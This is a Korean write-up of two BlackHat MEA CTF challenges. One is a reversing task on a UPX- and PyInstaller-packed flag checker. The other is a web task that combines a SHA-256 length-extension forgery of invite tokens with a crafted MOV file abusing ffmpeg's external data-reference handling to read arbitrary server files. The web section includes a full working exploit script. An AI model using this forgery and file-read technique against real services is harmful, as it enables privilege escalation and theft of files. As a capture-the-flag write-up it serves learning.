




이번에 BlackHat MEA CTF를 처음 뛰어봤다.  
CTF 시간이 총 약 30시간 정도가 주어지고, 문제 수가 좀 적길래 문제가 많이 어렵구나 라고 생각을 하였지만 실제로는 5시간 정도만에 올솔이 났다.  


# Reversing

## upyx



문제 설명은 위와 같다.



먼저 DIE로 봐보면 upx와 pyinstaller로 패킹되어 있는 걸 볼 수 있다. 
우선 upx와 pyinstaller를 풀고나면 대충 1000개 정도의 파일이 나온다.  

```python
import base64 as _6f2b1d94
import marshal as _2cb7e451
import zlib as _81a4fd20
_0fd7c1a2 = b'c-m~Y+ . . . ^ImgKw'
exec(_2cb7e451.loads(_81a4fd20.decompress(_6f2b1d94.b85decode(_0fd7c1a2))), globals(), globals())
```

그 중 main.pyc를 decompile 돌리면 위와 같이 코드가 나온다.  

```python

if __name__ == '__main__':
    enhanced._c605a4bf()
```

exec 함수 구조를 100번 반복하여 벗기면 위와 같이 원본 코드를 볼 수 있다.  
enhanced.pyd를 python313.dll에 로드하여 모듈 전역과 Cython 함수 호출을 관찰한 결과 _c605a4bf 함수는 tkinter 기반의 GUI를 띄워서 사용자 입력 문자를 받는다.  
입력 문자로 받을 수 있는 문자는 영문자, 숫자, _, {, } 이렇게 되어 있고, 입력 길이는 60자였다.  

```text
\\.\pipe\supyxsvc
\\.\pipe\upyxsvc
```

문제 파일에서는 위의 두 named pipe를 사용하는데, _9981f964 함수의 요청과 응답을 통해 두 pipe 사이의 프로토콜을 복원했다.  

|opcode|req/res|역할|
|---|---|---|
|0x00|1byte req -> 4byte res|초기화|
|0x01|opcode| |
|0x10|opcode| |
|0x11|1byte req -> 960byte res|검증 대상 버퍼 반환|
|0x12|1byte req -> 32byte res|무결성 digest 반환|
|0x13|1byte req -> 1byte res|상태 정리|

입력한 각 문자는 16byte 토큰 하나로 바뀐다. 따라서 최종 검증 데이터 크기는 960byte가 된다.  

프로토콜 자체는 별도 호스트에서 확인이 됐지만, 같은 문자도 위치에 따라 요청값이 달라졌기 때문에 새 prefix 상태를 유지한 pyinstaller 자식 프로세스에서 위치별 토큰을 조회했다.  
이 과정에서 upx로 언패킹을 한 파일에선 pipe가 제대로 재현되지 않고, 원본 파일을 실행했을 때만 pyinstaller의 부모•자식 프로세스와 두 pipe가 생성됐다.  

부모 프로세스에 매핑된 주 모듈의 크기는 0xAD000 바이트였다. 이를 PE 이미지 형태로 재구성하여 upx 런타임 영역에서의 서버 스레드와 암호 루틴을 확인했다.  

|RVA|역할|
|---|---|
|0x73437|supyxsvc 스레드 진입점|
|0x80614|upyxsvc 스레드 진입점|
|0x9CAF8|\\.\pipe\supyxsvc 문자열|
|0x9CB0A|\\.\pipe\upyxsvc 문자열|
|0x9CB20|16byte AES 키 30개|
|0x80879|AES-128 키 스케줄 생성|
|0x80A8D|두 개의 16byte 블럭 암호화|

upyxsvc의 opcode 0x10 처리 과정은 다음과 같다.  
1. 960byte를 32byte씩 30개로 분리  
2. 각 32byte 쌍에 서로 다른 16byte 키 사용  
3. 두 블럭을 AES-128 ECB로 암호화  
4. 변환된 960byte 저장 및 상태 반환  
5. 0x11 opcode 요청이 오면 저장한 값을 check.pyd에 전달  

즉, GUI에서 생성한 문자 토큰이 그대로 비교되는 것이 아닌, AES 변환을 한 번 거친 뒤 네이티브 검증기에 들어간다.  

```python
def command_line_hash(value: str) -> int:
    h = 0xB5F6F899
    for c in value.lower().encode():
        h = ((h ^ c) * 0x01000193) & 0xFFFFFFFF
    return h
```

check.check(named_pipe_path) 함수는 PEB의 raw command line을 직접 읽는다.  
마지막 . 뒤의 영문자를 소문자로 바꾼 뒤, 위의 32bit FNV 계열 해시를 계산한다.  

```text
C.H8TUZibnsS"
```

pyinstaller 자식 프로세스의 raw command line은 위와 같았다.  
따라서 실제 해시 입력과 seed는 다음과 같다.  

```python
command_line_hash("h8tuzibnss") == 0xA2C2FDF1
```

계산된 seed 값은 pipe한테 받은 960byte와 check.pyd+0x191F0에 있는 데이터와 함께 check.pyd+0xE99E의 최종 검증 함수에 전달된다.  
최종 검증 함수는 실행 중에 의도적으로 UD2를 실행시킨다. UD2가 illegal-instruction 예외를 발생시키면 vectored exception handler한테 제어가 넘어가고, 핸들러는 런타임 블럭 테이블에서 해당 코드의 주소와 길이를 찾아 xor 복호화를 진행한다.  
이후 EXCEPTION_CONTINUE_EXECUTION으로 검증 함수 실행을 재개하며, 이 방식으로 검증 경로에서 도달한 네 개의 코드 블럭이 활성화됐다.  

처음 검증기를 실행했을 때 등록된 코드 블럭은 다음과 같다.  

|블럭|RVA|길이|
|---|---|---|
|0|0x5D97|0x21F2|
|1|0x129C6|0x32D|
|2|0x13E6A|0x4F9|
|3|0x14A4F|0x84D|

위의 네 블럭에서 실제 바이트 검증 흐름을 추적하면 다음 핵심 RVA를 확인할 수 있다.  

|RVA|동작|
|---|---|
|0x55F9|현재 입력 바이트 변환|
|0x150CD|입력 1byte 읽기|
|0x151D4|변환 결과와 목표 바이트 비교|
|0x151D9|비교 직후의 플래그 비변경 SIMD 명령|
|0x15273|실패 분기|

블럭이 복호화되면 검증기는 960byte를 앞에서부터 하나씩 읽는다. 0x150CD에서 현재 입력 바이트를 가져와 0x55F9의 변환 루틴에 넣고, 0x151D4에서 변환 결과를 목표 바이트와 비교한다. 값이 다르면 0x15273으로 이동하고, 같으면 다음 바이트를 검사한다.  

이제 남은 문제는 이 성질을 이용해 검증기를 만족하는 960byte를 구하는 것이다. 가장 단순한 방법은 브루트포스로 값을 맞추는 거지만 검증기가 항상 맨앞에서부터 각 바이트를 하나씩 읽으므로 뒤로 갈 수록 속도가 너무 느려진다.  

그래서 Windows 예외를 이용하여 현재 바이트를 읽기 직전으로 되돌아가는 방식으로 진행했다. 방법은 다음과 같다.  
1. 입력 버퍼에 PAGE_GUARD를 설정한다. 검증기가 현재 바이트를 읽으려 하면 예외가 발생하고, 이때 레지스터와 실행 위치가 담긴 CONTEXT를 저장한다.  
2. 비교 직후의 명령을 INT3으로 바꿔 비교가 끝난 순간 다시 실행을 멈춘다. 이때 ZF가 1이면 두 값이 같고, 0이면 다르다.  
3. ZF가 0이면 입력 바이트를 1 증가시킨 뒤 저장한 CONTEXT로 돌아가 현재 위치만 다시 검사한다. 이 방식을 통해 입력 바이트를 0~255까지 확인할 수 있다.  
4. ZF가 1이면 해당 바이트를 저장하고 다음 위치로 넘어간다.  

PAGE_GUARD는 한 번 예외가 발생하면 해제되므로, 바이트 읽기 직후 single-step 예외를 발생시켜 다음 읽기에도 예외가 발생하도록 설정했다.  
이 방식으로 몇 초만에 960byte를 전부 복원할 수 있었다.  

이렇게 구한 960byte는 upyxsvc의 AES 변환을 거쳐 있는 상태다. 때문에 서버 메모리에 있는 30개의 키로 각 32byte 쌍을 복호화해줬다.  
복호화 결과는 16byte 토큰 60개다.  

이제 각 위치에서 허용된 문자 집합을 순회하며 _afa6b920(char)를 호출했다. 원본 자식 프로세스의 세션이 반환한 16byte 토큰과 목표 토큰이 같은 문자가 곧 flag 문자가 된다.
모든 위치에서 일치하는 문자는 하나씩이였으며, 이를 순서대로 이으면 다음과 같이 flag가 나온다.

```text
BHFlagY{cy7h0n_pyth0n_w1th_3nh4nced_upx__e8f278059549f9ded9}
```

```python
from __future__ import annotations
import hashlib
import re

TOKEN_MATCHES = [
    ('B', '6e9b393bec59bd0930a2d3ae624e6a02'),
    ('H', '0264d8cbed0139d534247b49834c8a4d'),
    ('F', '4e840a5ae03531b2a976dc8aff22f9a4'),
    ('l', '7b3b239a83ec37906cb3a4b1b21ab2d7'),
    ('a', '7a396dc7eaace12a17d02d2a75b11242'),
    ('g', 'f14e277d59af038673d06ccb654e5e6a'),
    ('Y', '31d252d168bbbde5f7c28de547eacc55'),
    ('{', '77ddfaf5f04277c86459c25426905cfd'),
    ('c', '6984738ec1d342de41b6d599aba282a9'),
    ('y', '0475791fdd32ae9e82f8fa1fd4265ae1'),
    ('7', '0eb89b47bcc70adb984111e0dc12f824'),
    ('h', 'a27da9b03817ddfe88c64ef6681a8c20'),
    ('0', 'bf13053b533cc24f907cf241acf4813a'),
    ('n', '7f591dee3747a2f98239db994835be3b'),
    ('_', '7783e6685cda8a1581bc0920042881bd'),
    ('p', 'bec0385dafdaf19fd486efeffe6d20c7'),
    ('y', '55dde09134ccd1fc7c4b721741e1108d'),
    ('t', '89ab88a8fdc2406a8a67abba95b8b5c4'),
    ('h', 'e3790d95aaa0fd4551db5a1adf1071b7'),
    ('0', 'e20a957137400892eff834449700911f'),
    ('n', 'f55edfdcf4cb4a2a85aed73f2c09016b'),
    ('_', '2b888fbd361ad74bb201e90786ad1a62'),
    ('w', 'c780e0eeebe190e366b6a067315c4352'),
    ('1', '55d51bf238b35b58b6a8a6d264e08b28'),
    ('t', '0938a77bd2625b6632aa719880d9bf6b'),
    ('h', 'bdecc33403114ade9aadd83eab25a78d'),
    ('_', '821e20fc8ac5b448848e4aa8df25ecbc'),
    ('3', 'ed069a84406f9db7595a4aca3314913d'),
    ('n', '08628b41ce8bbcdfa09805caead41ad4'),
    ('h', 'a09d3e2cab7eae3a29679b8942cf3037'),
    ('4', 'f0ec8a1f261ebbe8b6d6638aa9b691f9'),
    ('n', 'a4cf445e4e77680c921f4606ffa23434'),
    ('c', '2679b3b8ae716765be48bd2924e43018'),
    ('e', 'c196b3fdb21576bd48cde9786c28de30'),
    ('d', '79dc8d492d232f2740803cd82dc9c085'),
    ('_', '98f4a4fc5ca2ec5e46b434af0863ebbc'),
    ('u', '52422932743ab7cf2e0690a0d275fb33'),
    ('p', '7c4dbb2c22c442577a4bcd22af7a9666'),
    ('x', 'cedead9ac8139a6f2072574809c23fd2'),
    ('_', 'e0f341becc8f56be34693b9dc03a5991'),
    ('_', '2f71d1c912f0f6d43d5c679cd5c4646b'),
    ('e', '1479287cfd87427819964a62c5e940d0'),
    ('8', '32ce01179d8eb1fbd82a3126f68060b5'),
    ('f', '17f82f18392d9a2127d1e53c8cf32dd1'),
    ('2', '7f300eff9870b918774b3c0e4ddcc4d7'),
    ('7', '85594f24b050fcd3e0e0ee93a581a328'),
    ('8', 'a8369ffedbd54824356ad0c52f9c2a0f'),
    ('0', 'bfe8245e99c52ff5db2a41c87621d65c'),
    ('5', '72afba6616d9eec7afd487d52f1f06f2'),
    ('9', 'c72bdfd120db1dcce0dfb3d330ab5406'),
    ('5', '08a7a36c7aa02d105dc930d67f67dc4b'),
    ('4', '4dfb1fed1ed723771d8897e08954afb1'),
    ('9', '16ae918a966daa63c65714868c520c23'),
    ('f', '434a052a38ddfffb3ddfc49f788a9335'),
    ('9', '0254a00b31d5f50f4b38bb31ce5cac6c'),
    ('d', '0bd25c2400c410a61b29c39bcad3cbdf'),
    ('e', 'dd9c1a037d85124740f8e120b9b08e0d'),
    ('d', 'fdf13891bbdcee2cc58fa7335c0d013d'),
    ('9', '52348a73ad06334954de4a6d91c739fb'),
    ('}', 'c7f239a3e45512403eac4c9058b025ba'),
]
EXPECTED_TOKEN_SHA256 = "bbc819e8b20957e9eca2f19d40eda7154177196cd4418c6390837a831996e311"
EXPECTED_FLAG_SHA256 = "82eced03b6f0feb4182b902bf09e5b2fb632fe4d112595776864165be6cebe56"


assert len(TOKEN_MATCHES) == 60
tokens = b"".join(bytes.fromhex(token_hex) for _, token_hex in TOKEN_MATCHES)
assert len(tokens) == 60 * 16
assert hashlib.sha256(tokens).hexdigest() == EXPECTED_TOKEN_SHA256

flag = "".join(ch for ch, _ in TOKEN_MATCHES)
assert re.fullmatch(r"BHFlagY\{[0-9A-Za-z_]+\}", flag)
assert hashlib.sha256(flag.encode()).hexdigest() == EXPECTED_FLAG_SHA256
print(flag)
```


# WEB

## Huddle



문제 설명은 위와 같다.  

구성은 Node/Express + React SPA 프론트엔드와 업로드 영상의 썸네일을 생성하는 별도 ffmpeg 워커다.  
인증/워크스페이스 API는 다음과 같이 생겼다.  

|엔드포인트|내용|
|---|---|
|POST /api/register, /api/login|세션 쿠키 sid 발급, 기본 role=member|
|GET /api/invite|{token: base64url("team=main&email=<me>&role="member"), sig: <sha256 hex>}|
|POST /api/join|token+sig 검증 후 role 부여|
|POST /api/workspace/settings|owner 전용, video_messages 플래그|
|POST /api/files/upload|video_messages가 true일 때만 허용, 바디는 raw octet-stream|
|POST /api/files/thumbnail|업로드 파일을 ffmpeg로 썸네일 생성 -> /thumbnail/<hash>.jpg|

공격 지점은 업로드 -> 썸네일 경로지만, member 권한으로는 /api/files/upload가 잠겨 있어 owner가 먼저 되어야 한다.  

썸네일 워커는 컨테이너가 mov, mp4, m4a, 3gp, 3g2, mj2로 인식되는 파일만 처리한다. avi/mkv/flv/ts/webm은 전부 거부되므로 HLS 트릭이나 AVI+GAB2 계열 ffmpeg LFI 트릭은 쓸 수 없고, mov 컨테이너 안에서 해결해야 한다.  

role을 실어 나르는 초대 토큰부터 보면, GET /api/invite의 응답은 다음과 같다.  

```text
token = base64url("team=main&email=pwn@test.com&role=member")
sig   = sha256 hex
```

서명이 HMAC이 아니라 SHA256(secret||message) 구조다. Merkle-Damgard 해시이므로 secret을 몰라도 뒤에 데이터를 붙인 새 서명을 만들 수 있다.  
남은 조건은 서버의 파싱 방식인데, /api/join은 서명 검증 후 디코드한 쿼리스트링을 파싱하면서 같은 키가 여러 번 나오면 마지막 값을 채택한다. 따라서 &role=owner를 뒤에 붙이면 된다.  

- 원문: `team=main&email=pwn@test.com&role=member`
- 확장: `원문 || SHA256 패딩 (glue) || "&role=owner"`

secret 길이는 0~64를 순회해 판별했고 26byte에서 통과했다.  

```text
{"ok":true,"email":"pwn@test.com","role":"owner"}
```

패딩의 \x80과 NUL 바이트는 앞쪽 role=member의 값 부분에 흡수된다. role의 첫 번째 값이 member\0x80\0x00...이 될 뿐 파싱은 깨지지 않고, 마지막 role=owner가 최종 값으로 남는다.  
ower가 된 뒤 POST /api/workspace/settings {"video_messages":true}로 업로드 기능을 활성화했다.  

이제 다음 대상은 썸네일 워커다. 뒤에 설명할 방법으로 /proc/self/cmdline을 유출해 확인한 워커 커맨드는 다음과 같다.  

```text
ffmpeg -y -loglevel error -enable_drefs 1 -use_absolute_path 1 -i /tmp/huddle/uploads/F0000xxxx -frames:v 1 -q:v 2 /tmp/huddle/thumbs/<hash>.jpg
```

-enable_drefs와 -use_absolute_path는 둘 다 기본값 off인데 켜져 있다.  
libavformat/mov.c의 mov_read_dref 함수와 mov_open_dref 함수는 dinf/dref 박스 안의 Macintosh alias 레코드를 파싱해 샘플 데이터를 입력 파일이 아닌 외부 파일에서 읽어온다.  
경로 조합 규칙은 다음과 같다.  

```text
dirname(입력파일) + "../" * (nlvl_from - 1) + (path에서 뒤쪽 nlvl_to개 컴포넌트)
```

nlvl_form을 크게 잡으면 /tmp/huddle/uploads에서 /까지 올라간다. use_absolute_path가 켜져 있어 same-origin 검사도 통과한다. 결과적으로 워커 파일시스템의 임의 파일을 트랙 샘플 데이터로 삼을 수 있다.  

다만 업로드 바디에 /etc/나 ../ 문자열이 있으면 앞단 프록시가 커넥션을 리셋한다. mov.c는 alias 경로 안의 ':'와 NUL을 '/'로 치환하므로, 경로를 x:flag.txt처럼 콜론으로 적으면 업로드 바이트에 슬래시가 전혀 없다. ../는 ffmpeg가 nlvl_from 값을 보고 스스로 생성하므로 필터에 노출되지 않는다. nlvl_to는 경로 컴포넌트 개수만큼 주고 첫 컴포넌트 x는 버려지도록 맞춘다.  

파일 존재 여부는 오라클로 먼저 확인할 수 있다. stsz에 적은 샘플 크기가 실제 외부 파일 크기보다 크면 디코딩이 실패해 could not generate a thumbnail이 반환된다. 1x1 프레임으로 요청하면 존재 여부가 드러나고, 이 오라클로 /etc/passwd, /proc/self/cmdline, /flag.txt의 존재를 확인했다.  

내용을 빼내려면 파일을 rawvideo 트랙의 샘플로 읽게 해서 그 바이트를 픽셀로 JPEG 썸네일에 싣는다. 단 -q:v 2 JPEG는 손실 압축이다. 픽셀 포맷은 stsd의 depth 값이 결정하며, 세 가지를 시도했다.  

|depth|해석|바이트당 픽셀|결과|
|---|---|---|---|
|24|rgb24|1/3|크로마 서브샘플링으로 파괴|
|40|8bit 그레이 팔레트|1|JPEG 손실로 ±1~3 오차 -> 문자 오독|
|1|1bit 팔레트(bit0->0xFF, bit1->0x00)|8|순수 흑/백만 남아 무손실|

depth을 40으로 읽으면 BHFlagY{2cd4eddd35c3893f47bg00d88a969e9} 이렇게 flag가 나온다. 근데 이는 올바른 flag가 아니라 인접 문자로 인해 좀 흔들려 있는 플래그다. 때문에 depth를 1로 읽으면 흑 또는 백 픽셀이 되어, JPEG 손실과 무관하게 임계값 128 이진화만으로 flag가 복원된다.  

```text
BHFlagY{2dd4eded25c3783e36cf00d77b959f9a}
```

```python
import io, json, struct, sys, urllib.request, urllib.error, base64, random, string

BASE = sys.argv[1] if len(sys.argv) > 1 else "http://e5c7a27cdb7e9a2d80de729de86281d8.playat.flagyard.com"
FLAG_PATH = "X:flag.txt"          # ':' == '/', first component is stripped by nlvl_to=1

# ------------------------------------------------------------------ SHA-256 length extension
K = [0x428a2f98,0x71374491,0xb5c0fbcf,0xe9b5dba5,0x3956c25b,0x59f111f1,0x923f82a4,0xab1c5ed5,
     0xd807aa98,0x12835b01,0x243185be,0x550c7dc3,0x72be5d74,0x80deb1fe,0x9bdc06a7,0xc19bf174,
     0xe49b69c1,0xefbe4786,0x0fc19dc6,0x240ca1cc,0x2de92c6f,0x4a7484aa,0x5cb0a9dc,0x76f988da,
     0x983e5152,0xa831c66d,0xb00327c8,0xbf597fc7,0xc6e00bf3,0xd5a79147,0x06ca6351,0x14292967,
     0x27b70a85,0x2e1b2138,0x4d2c6dfc,0x53380d13,0x650a7354,0x766a0abb,0x81c2c92e,0x92722c85,
     0xa2bfe8a1,0xa81a664b,0xc24b8b70,0xc76c51a3,0xd192e819,0xd6990624,0xf40e3585,0x106aa070,
     0x19a4c116,0x1e376c08,0x2748774c,0x34b0bcb5,0x391c0cb3,0x4ed8aa4a,0x5b9cca4f,0x682e6ff3,
     0x748f82ee,0x78a5636f,0x84c87814,0x8cc70208,0x90befffa,0xa4506ceb,0xbef9a3f7,0xc67178f2]

def _rr(x, n): return ((x >> n) | (x << (32 - n))) & 0xFFFFFFFF

def _compress(state, block):
    w = list(struct.unpack('>16I', block))
    for i in range(16, 64):
        s0 = _rr(w[i-15],7) ^ _rr(w[i-15],18) ^ (w[i-15] >> 3)
        s1 = _rr(w[i-2],17) ^ _rr(w[i-2],19) ^ (w[i-2] >> 10)
        w.append((w[i-16] + s0 + w[i-7] + s1) & 0xFFFFFFFF)
    a,b,c,d,e,f,g,h = state
    for i in range(64):
        t1 = (h + (_rr(e,6)^_rr(e,11)^_rr(e,25)) + ((e & f) ^ ((~e) & g)) + K[i] + w[i]) & 0xFFFFFFFF
        t2 = ((_rr(a,2)^_rr(a,13)^_rr(a,22)) + ((a & b) ^ (a & c) ^ (b & c))) & 0xFFFFFFFF
        h,g,f,e,d,c,b,a = g,f,e,(d+t1)&0xFFFFFFFF,c,b,a,(t1+t2)&0xFFFFFFFF
    return [(x+y) & 0xFFFFFFFF for x,y in zip(state,[a,b,c,d,e,f,g,h])]

def _pad(msglen):
    return b'\x80' + b'\x00' * ((56 - (msglen+1) % 64) % 64) + struct.pack('>Q', msglen*8)

def sha256_extend(digest_hex, orig_len, append):
    """digest over a message of orig_len bytes (secret included) -> (glue, new digest)"""
    state = list(struct.unpack('>8I', bytes.fromhex(digest_hex)))
    glue = _pad(orig_len)
    data = append + _pad(orig_len + len(glue) + len(append))
    for i in range(0, len(data), 64):
        state = _compress(state, data[i:i+64])
    return glue, ''.join('%08x' % x for x in state)

# ------------------------------------------------------------------ crafted MOV/MP4 (external dref)
def _box(t, p):            return struct.pack('>I', len(p)+8) + t + p
def _full(t, ver, fl, p):  return _box(t, struct.pack('>B3s', ver, fl.to_bytes(3,'big')) + p)
_MATRIX = struct.pack('>9i', 0x10000,0,0, 0,0x10000,0, 0,0,0x40000000)

def _dref_alis(path, nlvl_from, nlvl_to):
    """Macintosh alias record; mov.c turns ':' and NUL inside the path into '/'."""
    p  = b'\x00'*10
    p += bytes([0]) + b'\x00'*27                       # volume pascal string
    p += b'\x00'*12
    p += bytes([4]) + b'file'.ljust(63, b'\x00')       # filename
    p += b'\x00'*16
    p += struct.pack('>HH', nlvl_from, nlvl_to)        # up from alias / down to target
    p += b'\x00'*16
    pb = path.encode()
    if len(pb) & 1: pb += b'\x00'
    p += struct.pack('>HH', 2, len(pb)) + pb           # component type 2 = absolute path
    p += struct.pack('>HH', 0xFFFF, 0)                 # terminator
    return _full(b'dref', 0, 0, struct.pack('>I', 1) + _full(b'alis', 0, 0, p))

def _stsd_raw(w, h, depth):
    e  = b'\x00'*6 + struct.pack('>H', 1)              # data_reference_index = 1
    e += struct.pack('>HHI', 0, 0, 0) + struct.pack('>II', 0, 0)
    e += struct.pack('>HH', w, h) + struct.pack('>II', 0x00480000, 0x00480000)
    e += struct.pack('>I', 0) + struct.pack('>H', 1)
    e += bytes(32)
    e += struct.pack('>Hh', depth, -1)                 # depth 1 -> 1bpp greyscale palette
    return _full(b'stsd', 0, 0, struct.pack('>I', 1) + _box(b'raw ', e))

def build_mp4(path, w, h, sample_size, offset=0, depth=1, nlvl_from=30, nlvl_to=1):
    ftyp = _box(b'ftyp', b'isom' + struct.pack('>I', 512) + b'isomiso2mp41qt  ')
    mvhd = _full(b'mvhd', 0, 0, struct.pack('>IIII',0,0,1000,1000) +
                 struct.pack('>Ihh', 0x10000, 0x100, 0) + b'\x00'*8 + _MATRIX +
                 b'\x00'*24 + struct.pack('>I', 2))
    tkhd = _full(b'tkhd', 0, 3, struct.pack('>IIIII',0,0,1,0,1000) + b'\x00'*8 +
                 struct.pack('>hhhh',0,0,0,0) + _MATRIX + struct.pack('>II', w<<16, h<<16))
    mdhd = _full(b'mdhd', 0, 0, struct.pack('>IIII',0,0,1000,1000) + struct.pack('>HH',0x55c4,0))
    hdlr = _full(b'hdlr', 0, 0, b'\x00'*4 + b'vide' + b'\x00'*12 + b'VideoHandler\x00')
    stbl = _box(b'stbl', _stsd_raw(w, h, depth) +
                _full(b'stts', 0, 0, struct.pack('>III', 1, 1, 1000)) +
                _full(b'stsc', 0, 0, struct.pack('>IIII', 1, 1, 1, 1)) +
                _full(b'stsz', 0, 0, struct.pack('>III', 0, 1, sample_size)) +
                _full(b'stco', 0, 0, struct.pack('>II', 1, offset)))   # offset INTO the target file
    minf = _box(b'minf', _full(b'vmhd', 0, 1, struct.pack('>HHHH',0,0,0,0)) +
                _box(b'dinf', _dref_alis(path, nlvl_from, nlvl_to)) + stbl)
    moov = _box(b'moov', mvhd + _box(b'trak', tkhd + _box(b'mdia', mdhd + hdlr + minf)))
    return ftyp + moov + _box(b'mdat', b'')

# ------------------------------------------------------------------ HTTP client
class Client:
    def __init__(self, base): self.base, self.sid = base, None
    def _req(self, method, path, body=None, ctype='application/json', raw=False):
        h = {}
        if self.sid:  h['Cookie'] = 'sid=' + self.sid
        if body is not None: h['Content-Type'] = ctype
        r = urllib.request.Request(self.base + path, data=body, headers=h, method=method)
        try:
            resp = urllib.request.urlopen(r, timeout=90)
            data = resp.read()
            for k, v in resp.getheaders():
                if k.lower() == 'set-cookie' and v.startswith('sid='):
                    self.sid = v.split(';')[0][4:]
        except urllib.error.HTTPError as e:
            data = e.read()
        return data if raw else json.loads(data)
    def register(self, email, pw): return self._req('POST','/api/register', json.dumps({'email':email,'password':pw}).encode())
    def invite(self):              return self._req('GET','/api/invite')
    def join(self, tok, sig):      return self._req('POST','/api/join', json.dumps({'token':tok,'sig':sig}).encode())
    def settings(self, s):         return self._req('POST','/api/workspace/settings', json.dumps(s).encode())
    def upload(self, blob):        return self._req('POST','/api/files/upload', blob, 'application/octet-stream')
    def thumbnail(self, fid):      return self._req('POST','/api/files/thumbnail', json.dumps({'file_id':fid}).encode())
    def get(self, path):           return self._req('GET', path, raw=True)

# ------------------------------------------------------------------ steps
def become_owner(c):
    inv = c.invite()
    msg = base64.urlsafe_b64decode(inv['token'] + '=' * (-len(inv['token']) % 4))
    assert b'role=member' in msg, msg
    for klen in range(0, 65):                       # unknown secret length (26 here)
        glue, sig = sha256_extend(inv['sig'], klen + len(msg), b'&role=owner')
        tok = base64.urlsafe_b64encode(msg + glue + b'&role=owner').decode().rstrip('=')
        r = c.join(tok, sig)
        if r.get('role') == 'owner':
            print('[+] length extension ok (secret length = %d) -> role=owner' % klen)
            return True
    raise RuntimeError('length extension failed: ' + str(r))

def read_worker_file(c, path, nbytes, offset=0):
    """exact read: depth=1 -> 8 pure black/white pixels per byte

    `path` uses ':' as the separator; nlvl_to keeps every component but the first,
    nlvl_from=30 emits enough '../' to climb out of /tmp/huddle/uploads to '/'.
    """
    from PIL import Image
    import numpy as np
    mp4 = build_mp4(path, nbytes * 8, 1, nbytes, offset, nlvl_to=path.count(':'))
    fid = c.upload(mp4)
    if 'file_id' not in fid: raise RuntimeError('upload blocked: ' + str(fid))
    r = c.thumbnail(fid['file_id'])
    if 'thumb_url' not in r: raise RuntimeError('thumbnail failed (file missing/too short?): ' + str(r))
    px = np.array(Image.open(io.BytesIO(c.get(r['thumb_url']))).convert('L')).astype(int)[0]
    ambiguous = int(((px > 60) & (px < 195)).sum())
    bits = (px < 128).astype(int)                   # palette: bit1 -> 0x00, bit0 -> 0xFF
    out = bytearray()
    for i in range(nbytes):
        v = 0
        for b in bits[i*8:(i+1)*8]:
            v = (v << 1) | int(b)
        out.append(v)
    return bytes(out), ambiguous

def main():
    c = Client(BASE)
    email = 'pwn_%s@test.com' % ''.join(random.choices(string.ascii_lowercase, k=8))
    print('[*] register', email, '->', c.register(email, 'Passw0rd123!'))
    become_owner(c)
    print('[*] enable video_messages ->', c.settings({'video_messages': True}))

    data, amb = read_worker_file(c, FLAG_PATH, 64)
    assert amb == 0, 'lossy pixels detected (%d), re-run' % amb
    flag = data.split(b'\x00')[0].split(b'\n')[0].decode()
    print('[*] worker /flag.txt ->', flag)

    for n in range(208, 32, -4):                    # /proc/self/cmdline length varies per run
        try:
            cmd, _ = read_worker_file(c, 'X:proc:self:cmdline', n)
            print('[*] worker ffmpeg argv ->', cmd.replace(b'\x00', b' ').strip().decode())
            break
        except RuntimeError:
            continue
    return flag

if __name__ == '__main__':
    main()

# BHFlagY{2dd4eded25c3783e36cf00d77b959f9a}
```